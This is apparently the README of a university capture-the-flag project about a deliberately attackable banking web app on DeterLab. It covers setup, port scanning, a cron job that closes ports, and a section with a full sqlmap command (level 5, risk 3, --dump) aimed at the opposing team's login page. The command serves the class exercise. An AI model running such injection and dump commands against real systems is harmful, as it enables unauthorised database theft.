 # CSCI430_CTF
Banking web app for CS430's CTF group project

## Run setup script and Apache/MySQL
1. SCP files from computer to deterlab:
For folders: `scp -r server_files\ [username]@users.isi.deterlab.net:[destination folder]` 
For files:
`scp [filenames] usc430aw@users.isi.deterlab.net:[destination folder]`

2. Go the setup.sh script and run it, you may need to give execution privileges.
Give execution privileges: `sudo chmod +x ./setup.sh`
Run setup script: `./setup.sh`

3. While the setup script is running, you will be asked to pick a root password for mysql database. Feel free to use the default (do not enter anything and hit return) for testing but secure the server with a real password for ctf. Afterwards you will be asked to enter this password (you must type it out even if it is the default password)

## Check Standard Ports

1. Run `nmap -p- localhost | grep -E “(open|filtered)” | cut -d ‘/’ -f 1`
2. Make a list of the standard ports.

## Deploy close ports script
1. Add the port numbers into the script
2. Create a text file for the logs
3. Give execute and write permissions on the file
4. Open crontab -e
5. Add the rule: `* * * * * /bin/bash /users/usc430xx/close_ports_service.sh >> /users/usc430xx/test.txt 2>&1`
6. Run `sudo service cron restart`
7. Use `sudo grep CRON /var/log/syslog or cat log.txt` to check for logs

## Instructions for SQL Injections
1. Make sure sqlmap software and python are downloaded to the system
2. Navigate to the filepath of the sqlmap software
3. Run this command 'sqlmap -u "http://<blue_server>/blue/login.php?user=<username>&pass=<password>" --cookie="<cookie>" --data="action=<action>&amount=<amount>" --level=5 --risk=3 --batch --dump` , where <blue_server> would be replaced with the URL or IP address of the web server running the banking application, and the username, password, action, and amount would be replaced with the appropriate values for the attack. The --cookie option specifies the cookie value obtained from the login page, which is used to maintain the session throughout the attack.
4. sqlmap will automatically exploit all vulnerabilities



## Run test cases
1. Go to the test scripts folder
2. Run the tests, you may need to give yourself execution privileges

## Additional Information
**PortScanning.md** - useful commands on how to scan port and defend 

